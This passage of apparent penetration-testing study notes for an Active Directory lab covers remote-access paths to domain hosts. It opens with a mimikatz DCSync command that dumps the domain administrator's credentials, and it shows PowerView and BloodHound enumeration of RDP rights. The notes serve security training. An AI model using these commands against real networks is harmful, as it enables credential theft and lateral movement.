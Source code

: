 And now, from powershell:

```powershell

.\mimikatz.exe

#########
# mimikatz command
########

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator

```

## ⛔ Privileged Access

Sometimes we don't  have local admin rights on any hosts in the domain. However there are other ways to access the host:

- `Remote Desktop Protocol` (`RDP`) - is a remote access/management protocol that gives us GUI access to a target host
    
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2) - also referred to as [PSRemoting or Windows Remote Management (WinRM) access](5985-5986-winrm-windows-remote-management.md), is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell
    
- `MSSQL Server` - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. 

Via BloodHound we can enumerate the following edges to see what types of remote access privileges a given user has:

- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### Remote Desktop

Enumerating the Remote Desktop Users Group with PowerView.ps1.

```powershell
Import-Module .\PowerView.ps1

# Enumerate members accessing current machine
Get-NetLocalGroupMember -GroupName "Remote Desktop Users"

# Enumerate members accessing a given host
Get-NetLocalGroupMember -ComputerName $HostName -GroupName "Remote Desktop Users"
# Example:
# Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

```

From Bloodhound, we can check the Analysis tab and run the pre-built queries `Find Workstations where Domain Users can RDP` or `Find Servers where Domain Users can RDP`.
